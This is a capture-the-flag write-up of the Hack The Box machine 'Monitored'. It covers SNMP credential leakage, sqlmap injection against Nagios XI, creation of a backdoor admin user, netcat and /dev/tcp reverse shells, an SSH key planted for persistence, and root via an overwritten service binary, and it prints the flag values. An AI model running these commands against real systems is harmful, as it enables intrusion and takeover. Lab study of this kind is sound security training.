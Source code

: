 # Monitored

## Introduction

This writeup details the exploitation process of the "Monitored" box on Hack The Box. The challenge is categorized as medium difficulty and involves several stages, from initial access via SNMP enumeration to gaining root access through service misconfiguration.

<figure><img src="../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
sudo nmap -A -sC -sU -sV -Pn 10.10.11.248
```

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.248 nagios.monitored.htb" | sudo tee -a /etc/hosts
```

### Directory Enumeration

```bash
dirsearch -u https://nagios.monitored.htb/nagiosxi/
```

<figure><img src="../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

```
dirsearch -u https://nagios.monitored.htb/nagiosxi/api/v1
```

<figure><img src="../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### SNMP Enumeration

```bash
incursore.sh -H 10.10.11.248 -t recon
```

```basic
iso.3.6.1.2.1.25.4.2.1.5.570 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh <USERNAME> <password> "
```

### Authentication Bypass

```bash
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=1000'

{"username":"svc","user_id":"2","auth_token":"<TOKEN>","valid_min":1000,"valid_until":"Tue, 05 Mar 2024 15:48:12 -0500"}
```

It no luck to login with auth\_token, but i found the SQL injection [nagios-xi-vulnerabilities](https://outpost24.com/blog/nagios-xi-vulnerabilities/).

### SQL Injection and API Key&#x20;

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level=3 --risk=3 -p id --batch --dbms=mysql -D nagiosxi -T xi_users --dump
```

### Create New User

<pre class="language-bash"><code class="lang-bash"><strong>curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=&#x3C;API_KEY>" -d "username=admin&#x26;password=KPMG&#x26;auth_level=admin&#x26;email=test@gmail.com&#x26;name=eiei"
</strong><strong>
</strong>{"success":"User account admin was added successfully!","user_id":8}
</code></pre>

* Enter https://nagios.monitored.htb/nagiosxi/mobile/
* Login as USERNAME:PASSWORD
* Go the desktop dashboard

<figure><img src="../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

* go https://nagios.monitored.htb/nagiosxi/includes/components/ccm/xi-index.php

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

* Find command tab
* Add new command

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

* nc \<YOUR\_IP> \<YOUR\_PORT> -e /bin/bash
* Run check command
* nc -lvnp \<YOUR\_PORT>

### User Flag

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Cat user.txt ~~e9eaf8e812a59f17bcae9f18b37b4509~~

## Privilege Escalation

### Create own SSH

<pre class="language-bash"><code class="lang-bash">#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 
<strong>
</strong><strong>#Victims
</strong>mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
</code></pre>

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Create LinPEAS.sh:

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh nagios@IP:/home/nagios
```

### Run line LinPEAS

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

```bash
nano /usr/local/nagios/bin/npcd
----------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
----------------------------------------------
chmod +x /usr/local/nagios/bin/npcd
```

```markup
We don't know how to restart `npcd` service, let try `sudo -l`
```

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Root Flag

cat /root/root.txt&#x20;

~~cc01453cbbbad93eac5646e6ebf0046c~~

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
